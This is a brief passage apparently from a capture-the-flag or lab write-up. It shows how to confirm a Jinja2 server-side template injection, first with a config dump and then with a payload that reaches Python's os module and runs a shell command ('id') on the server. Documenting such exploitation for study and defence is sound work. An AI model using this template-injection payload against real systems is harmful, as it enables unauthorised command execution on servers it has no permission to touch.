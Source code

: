 ```python
                </form>
        <p>49</p>
        </body>
</html>
```

We can verify that Jinja2 injections work using `{{config.items()}}`

<figure><img src="../../../.gitbook/assets/image (3889).png" alt=""><figcaption></figcaption></figure>

Using this payload, we can verify the user:

```
{{self.__init__.__globals__.__builtins__.__import__("os").popen("id").read()}}
```

<figure><img src="../../../.gitbook/assets/image (3160).png" alt=""><figcaption></figcaption></figure>
